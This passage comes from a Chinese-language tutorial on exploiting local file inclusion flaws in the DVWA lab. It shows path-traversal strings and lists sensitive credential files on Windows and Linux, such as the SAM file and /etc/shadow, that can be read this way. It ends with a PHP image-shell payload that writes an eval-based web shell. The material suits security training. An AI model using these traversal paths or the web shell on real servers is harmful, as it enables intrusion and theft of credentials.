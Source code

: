 

利用该代码，我们可以读取一些系统本地的敏感信息。
例如:<code>C:\Windows\system.ini</code>文件。
（1）使用绝对路径
	使用绝对路径直接读取:

![5b328aeec88c47b692ea9d4f6f576687](./img/5b328aeec88c47b692ea9d4f6f576687.png)



（2）使用相对路径进行读取
	通过<code>./</code>表示当前位置路径，<code>/</code>表示上一级路径位置，在linux中同样适用。

​	例如当前页面所在路径为<code>C:\Apache24\htdocs\ </code>，我们需要使用<code>…/</code>退到C盘再进行访问，构造路径如下：
<code>../../windows/system.ini</code>



（3）一些常见的敏感目录信息路径:

~~~ tex
Windows系统:
C:\boot.ini //查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml //IIS配置文件
C:\windows\repair\sam //存储Windows系统初次安装的密码
C:\ProgramFiles\mysql\my.ini //Mysql配置
C:\ProgramFiles\mysql\data\mysql\user.MYD //MySQL root密码
C:\windows\php.ini //php配置信息

Linux/Unix系统:
/etc/password //账户信息
/etc/shadow //账户密码信息
/usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置
/usr/local/app/php5/lib/php.ini //PHP相关配置
/etc/httpd/conf/httpd.conf //Apache配置文件
/etc/my.conf //mysql配置文件
~~~

# 三、LFI漏洞利用技巧

## 1.配合文件上传使用

有时候我们找不到文件上传漏洞，无法上传<code>webshell</code>，可以先上传一个图片格式的<code>webshell</code>到服务器，再利用本地文件包含漏洞进行解析。

以<code>DVWA</code>平台为例，将<code>Security Level</code>选择<code>low</code>，编辑一个图片马，内容如下:

~~~ php
<?php
	fwrite(fopen("shell.php","w"),'<?php eval($_POST[123]);?>);
?>
~~~
